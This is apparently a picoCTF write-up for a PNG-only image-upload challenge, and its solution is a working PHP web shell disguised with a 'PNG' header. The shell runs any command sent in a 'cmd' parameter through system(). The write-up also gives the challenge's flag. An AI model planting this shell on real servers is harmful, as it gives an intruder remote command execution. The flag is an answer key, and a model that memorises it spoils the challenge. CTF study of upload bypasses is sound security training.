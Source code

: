 ## Descripción 
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
## Hints

## Solución
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}

```
## Notas

## Referencias
